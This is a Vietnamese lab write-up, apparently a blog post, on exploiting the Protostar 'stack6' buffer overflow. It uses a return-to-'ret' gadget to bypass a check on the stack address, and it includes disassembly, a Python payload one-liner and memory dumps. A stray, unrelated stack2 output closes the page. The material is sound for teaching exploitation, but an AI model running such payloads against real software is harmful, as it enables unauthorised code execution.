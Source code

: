 ```yaml
---
layout: post
title: stack6
---
```

Trong bài trước, chúng ta đã học cách inject code và điều hướng chương trình để đoạn code này được thực thi.
Bài này sẽ nâng độ khó lên một chút bằng cách giới hạn giá trị `eip` của caller.
Hãy cùng xem source code và asm code của chương trình như sau:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
```asm
0x08048484 <getpath+0>: push   ebp
0x08048485 <getpath+1>: mov    ebp,esp
0x08048487 <getpath+3>: sub    esp,0x68
0x0804848a <getpath+6>: mov    eax,0x80485d0
0x0804848f <getpath+11>:        mov    DWORD PTR [esp],eax
0x08048492 <getpath+14>:        call   0x80483c0 <printf@plt>
0x08048497 <getpath+19>:        mov    eax,ds:0x8049720
0x0804849c <getpath+24>:        mov    DWORD PTR [esp],eax
0x0804849f <getpath+27>:        call   0x80483b0 <fflush@plt>
0x080484a4 <getpath+32>:        lea    eax,[ebp-0x4c]
0x080484a7 <getpath+35>:        mov    DWORD PTR [esp],eax
0x080484aa <getpath+38>:        call   0x8048380 <gets@plt>
0x080484af <getpath+43>:        mov    eax,DWORD PTR [ebp+0x4]
0x080484b2 <getpath+46>:        mov    DWORD PTR [ebp-0xc],eax
0x080484b5 <getpath+49>:        mov    eax,DWORD PTR [ebp-0xc]
0x080484b8 <getpath+52>:        and    eax,0xbf000000
0x080484bd <getpath+57>:        cmp    eax,0xbf000000
0x080484c2 <getpath+62>:        jne    0x80484e4 <getpath+96>
0x080484c4 <getpath+64>:        mov    eax,0x80485e4
0x080484c9 <getpath+69>:        mov    edx,DWORD PTR [ebp-0xc]
0x080484cc <getpath+72>:        mov    DWORD PTR [esp+0x4],edx
0x080484d0 <getpath+76>:        mov    DWORD PTR [esp],eax
0x080484d3 <getpath+79>:        call   0x80483c0 <printf@plt>
0x080484d8 <getpath+84>:        mov    DWORD PTR [esp],0x1
0x080484df <getpath+91>:        call   0x80483a0 <_exit@plt>
0x080484e4 <getpath+96>:        mov    eax,0x80485f0
0x080484e9 <getpath+101>:       lea    edx,[ebp-0x4c]
0x080484ec <getpath+104>:       mov    DWORD PTR [esp+0x4],edx
0x080484f0 <getpath+108>:       mov    DWORD PTR [esp],eax
0x080484f3 <getpath+111>:       call   0x80483c0 <printf@plt>
0x080484f8 <getpath+116>:       leave
0x080484f9 <getpath+117>:       ret
0x080484fa <main+0>:    push   ebp
0x080484fb <main+1>:    mov    ebp,esp
0x080484fd <main+3>:    and    esp,0xfffffff0
0x08048500 <main+6>:    call   0x8048484 <getpath>
0x08048505 <main+11>:   mov    esp,ebp
0x08048507 <main+13>:   pop    ebp
0x08048508 <main+14>:   ret

```
Hàm `getpath` không cho phép `eip` của caller có dạng `0xbfxxxxxx`, tương đương với địa chỉ của bộ nhớ stack.
Do vậy, kỹ thuật của bài trước sẽ cần phải thay đổi.

Về cơ bản, đoạn code inject vào chương trình được lưu trong stack.
Do vậy, chúng ta vẫn sẽ cần điều hướng chương trình đến bộ nhớ này.
Để làm được điều này, ta sẽ dùng một kỹ thuật có tên "Return-Oriented Programming" (ROP).
Mục tiêu của kỹ thuật này là điều hướng chương trình đến nhưng đoạn code có sẵn nằm trong vùng cho phép thực thi (ví dụ trong vùng .text của asm, và không phải trên stack).
Việc điều hướng có thể được thực hiện nhiều lần có tính toán, khiến chương trình thực thi một chuỗi lệnh.

Sau đây là một ví dụ của ROP.
Chúng ta sẽ thực hiện overflow cho `buffer` như bài trước để inject code và ghi đè `eip` của caller.
Lần này chúng ta sẽ điều hướng `eip` đến một lệnh `ret` bất kỳ có sẵn trong chương trình chính.
Khi lệnh `ret` này được thực thi, giá trị tại `esp` sẽ được `pop` sang `eip`.
Dựa vào dự đoán này, ta sẽ ghi đè thêm 4 byte ngay sau `eip` mới.
4 byte này chính là địa chỉ của đoạn code đã được inject.
Nó có thể nằm trên stack.
```bash
python -c "print '\xcc' * 64 + '\xcc' * 4 + '\xcc' * 8 + '\xcc' * 4 + '\xf9\x84\x04\x08' + '\x6c\xf7\xff\xbf'" > input.txt
```
Đoạn script trên ghi đè lên 64 byte giá trị `buffer`, 4 byte giá trị biến `ret`, 8 byte padding, 4 byte `eip` mới của caller, và 4 byte địa chỉ injected code.
Sau đây là bộ nhớ trước và sau `gets`.
Phân biệt <span style="color:aqua">buffer</span>, <span style="color:red">eip mới của caller</span>, và <span style="color:springgreen">địa chỉ điều hướng về injected code</span>.
<pre class="memory">
0xbffff730:     0xbffff74c      0x00000000      0xb7fe1b28      0x00000001
0xbffff740:     0x00000000      0x00000001      0xb7fff8f8      <span style="color:aqua">0xb7f0186e</span>
0xbffff750:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0xb7ec6165</span>      <span style="color:aqua">0xbffff768</span>      <span style="color:aqua">0xb7eada75</span>
0xbffff760:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x080496ec</span>      <span style="color:aqua">0xbffff778</span>      <span style="color:aqua">0x0804835c</span>
0xbffff770:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x080496ec</span>      <span style="color:aqua">0xbffff7a8</span>      <span style="color:aqua">0x08048539</span>
0xbffff780:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048520</span>      0xbffff7a8
0xbffff790:     0xb7ec6365      0xb7ff1040      0xbffff7a8      <span style="color:orangered">0x08048505</span>
0xbffff7a0:     0x08048520      0x00000000      0xbffff828      0xb7eadc76
</pre>
<pre class="memory">
0xbffff730:     0xbffff74c      0x00000000      0xb7fe1b28      0x00000001
0xbffff740:     0x00000000      0x00000001      0xb7fff8f8      <span style="color:aqua">0xcccccccc</span>
0xbffff750:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff760:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff770:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>
0xbffff780:     <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      <span style="color:aqua">0xcccccccc</span>      0xcccccccc</span>
0xbffff790:     0xcccccccc      0xcccccccc      0xcccccccc      <span style="color:orangered">0x080484f9</span>
0xbffff7a0:     <span style="color:springgreen">0xbffff76c</span>      0x00000000      0xbffff828      0xb7eadc76
</pre>
## Ref
```bash
user@protostar:~$ export GREENIE=$'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888\x0a\x0d\x0a\x0d'
user@protostar:~$ stack2
you have correctly modified the variable
```
